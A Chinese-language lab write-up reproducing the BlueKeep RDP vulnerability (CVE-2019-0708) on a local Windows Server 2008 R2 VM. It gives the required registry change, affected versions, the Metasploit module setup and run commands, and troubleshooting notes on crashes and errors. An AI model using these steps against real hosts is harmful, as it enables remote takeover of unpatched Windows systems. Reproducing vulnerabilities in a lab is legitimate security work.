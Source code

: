 # 0x00 软件介绍
Windows RDP：Windows下自带的一款远程桌面服务

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2008_r2_standard_zh-chs

# 0x02 环境搭建
靶机环境：2008_r2_standard_zh-chs

前提条件：  
2008_r2_standard_zh-chs修改注册表值项HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal Server\WinStations\RDP-Tcp\fDisableCam的值为1  
（有的文章指出要修改的注册表值项为HKEY_LOCAL_MACHINE\SYSTEM\ControlSet001\Control\Terminal\Server\WinStations\rdpwd\fDisableCam，但我的系统没有值项rdpwd，而在项RDP-Tcp下有值项fDisableCam）

# 0x03 利用条件
Windows Server 2008 R2需要修改注册表  
Windows Server 2008（还没尝试，但应该和Windows Server 2008 R2一样）  
Windows 7无利用条件

# 0x04 影响版本
Windows Server 2008 R2 for x64-based Systems Service Pack 1 (Server Core installation)  
Windows Server 2008 R2 for x64-based Systems Service Pack 1  
Windows Server 2008 R2 for Itanium-Based Systems Service Pack 1  
Windows Server 2008 for x64-based Systems Service Pack 2 (Server Core installation)  
Windows Server 2008 for x64-based Systems Service Pack 2  
Windows Server 2008 for Itanium-Based Systems Service Pack 2  
Windows Server 2008 for 32-bit Systems Service Pack 2 (Server Core installation)  
Windows Server 2008 for 32-bit Systems Service Pack 2  
Windows 7 for x64-based Systems Service Pack 1  
Windows 7 for 32-bit Systems Service Pack 1

# 0x05 漏洞复现
攻击环境：kali_x64_en-us

将如下3个文件替换msf中默认的文件  
cp ./rdp.rb /usr/share/metasploit-framework/lib/msf/core/exploit/  
cp ./rdp_scanner.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/（有的文章中给出的目录是/usr/share/metasploit-framework/modules/auxiliary/scanner/，我想应该是少写了rdp/）  
cp ./cve_2019_0708_bluekeep.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/  
将如下1个文件添加到msf中  
cp ./cve_2019_0708_bluekeep_rce.rb /usr/share/metasploit-framework/modules/exploits/windows/rdp/  
配置meterpreter：  
msfconsole  
search 0708  
use windows/rdp/cve_2019_0708_bluekeep_rce  
set RHOSTS 192.168.149.130  
run  
选择目标为3（vmware）

第一次没修改注册表，系统蓝屏  
第二次修改注册表后，成功拿到shell  
第三次修改注册表后，系统蓝屏  
第四次修改注册表后，报错Connection reset by peer  
结论，08 r2需要修改注册表，而且利用不稳定

# 0x06 踩坑记录
坑0：Exploit aborted due to failure: bad-config: Set the most appropriate target manually  
表示需要设置对应的目标  
坑1：Exploit failed: NameError undefined local variable or method  
需要额外修改三个文件  
坑2：Exploit failed [disconnected]: Errno::ECONNRESET Connection reset by peer  
未知  

# 0x07 参考链接
https://github.com/rapid7/metasploit-framework/pull/12283  
http://blog.xkkhh.cn/archives/535
